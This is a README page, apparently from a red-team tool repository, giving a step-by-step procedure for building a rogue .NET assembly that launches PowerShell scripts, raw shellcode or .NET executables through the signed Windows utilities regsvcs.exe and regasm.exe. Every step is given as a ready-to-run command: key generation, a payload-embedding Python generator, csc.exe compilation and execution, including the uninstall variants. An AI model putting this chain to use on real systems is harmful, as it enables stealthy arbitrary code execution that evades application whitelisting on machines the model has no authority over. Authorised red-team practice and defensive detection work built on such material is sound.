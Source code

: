 ## Rogue .NET Assembly for Regsvcs/Regasm Code Execution

Follow below described steps to properly generate your source code and then compile it to a .NET Assembly valid for Regasm/Regsvcs:

### Step 1: Generate key.snk file

```
powershell -file build.ps1
```

### Step 2: Generate source code file

Included in this directory script is a helper utility allowing one to quickly generate desired csharp source code file to be used for further `csc` compilation.

Usage:

```
python3 generateRegsvcs.py --help

        :: Regsvcs Code Execution Source code generation utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm.
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

usage: .\generateRegsvcs.py [options] <inputFile>

positional arguments:
  inputFile   Input file to be embeded within C# code. May be either Powershell script, raw binary Shellcode or .NET Assembly (PE/EXE) file.

optional arguments:
  -h, --help  show this help message and exit
  -e, --exe   Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
  -r, --raw   Specified input file is a raw Shellcode to be injected in self process in a separate Thread.
```

Sample use case:

```
python3 generateRegsvcs.py -r notepad64.bin > program.cs

        :: Regsvcs Code Execution Source code generation utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm.
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File specified as raw Shellcode.

```


###  Step 3: Compilate library .NET Assembly

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regsvcs.dll /keyfile:key.snk program.cs
```
 
If you passed Powershell code to be launched in a .NET Runspace, then an additional assembly will have to be used to compile resulting source code properly - meaning System.Management.Automation.dll (provided with this script). Then proper compilation command will be:

```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.Management.Automation.dll /target:library /out:regsvcs.dll /keyfile:key.snk program.cs
```


### Step 4: Code execution via Regsvcs or Regasm:

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe regsvcs.dll
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe regsvcs.dll
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U regsvcs.dll 
```
   or
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U regsvcs.dll
```

